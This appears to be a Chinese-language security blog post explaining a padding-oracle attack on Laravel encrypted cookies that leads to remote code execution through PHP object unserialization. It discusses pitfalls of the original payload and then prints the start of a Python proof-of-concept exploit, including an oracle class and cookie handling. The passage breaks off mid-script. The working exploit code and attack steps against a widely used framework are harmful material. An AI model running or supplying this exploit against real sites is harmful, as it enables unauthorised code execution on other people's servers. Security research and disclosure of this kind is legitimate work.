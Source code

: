 运行结果

![enter image description here](http://drops.javaweb.org/uploads/images/828b5bde2d9fb32ae8a058b6f3fd6383e0c2950d.jpg)

### 测试2 利用padding oracle来实现RCE

我修改原作者生成payload的脚本，对比生成的payload和原作者给的payload，发现原作者把一些无用的protect属性给去除了， payload显得比较短，打算直接使用作者给的payload。

但是！原作者的payload留了个大坑，正常访问下，index.php的工作目录是web目录， 但是unserialize cookie之后产生的BufferHandler对象和字符串做运算，而BufferHandler类没实现__toString魔术方法， 从而导致触发fatal error，使用register_shutdown_function注册的回调函数$this->close被调用，但是！在我测试环境`ubuntu 12.04 64bit + php 5.3.10`下，触发异常导致$this->close被调用的时候，工作环境被切换到了根路径'/'，从而导致写文件失败。

另外一个坑是mac校验处，本来以为`(10/16.0) ** 3 = 0.244140625`，开头连续三个数字字符的概率还算低，结果跑一遍才发现远远低估mac校验这里的情况了，比如说正确的校验值是`79e58c735e1105d7222f321031a782251da88ebd08cdc1de926ead2df4b9d3fd`， 这种情况就让人很无奈。在实际情况中，正确的做法是换payload，在这里我就直接换key， 最后把key换成`Http://WeiBo.COM/Fatez3r0/home?Y`。 由于程序推ciphertext，推cv的关联性，以及推1 byte cv的随机性，多线程在此处意义不大。

下面是我根据上面的原理编写的exploit

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from __future__ import print_function

import re
import sys
import json
import struct
import base64
import requests
from optparse import OptionParser


def init_parser():
    print("")
    print("=== POC for laravel RCE ===")
    print("=== by fate0            ===")
    print("=== fate0@fatezero.org  ===")
    print("=== weibo.com/fatez3r0  ===")
    print("")
    usage = "Usage: %prog --host http://www.fatezero.org"
    parser = OptionParser(usage=usage, description="POC for laravel RCE")
    parser.add_option("--host", type="str", dest="host", help="remote host name")
    return parser


class LaravelOracle(object):
    """
    提供32位的payload，也就是明文P
    返回相对应的32byte IV
    """
    block_size = 32

    def __init__(self, domain, plaintext, ciphertext):
        self.domain = domain
        self.timeout = 7
        self.re_pattern = re.compile("Error\sat\soffset\s\d{1,2}\sof\s([\d]{1,2})\sbytes", re.DOTALL | re.M)
        self.plaintext = bytearray(plaintext)  # 32byte的payload
        self.ciphertext = bytearray(ciphertext)  # 32byte的ciphertext
        self.cv = bytearray()   # 正确的cv (中间值)
        self.iv = bytearray()
        self.cookie = {
            'mac': 0,
```
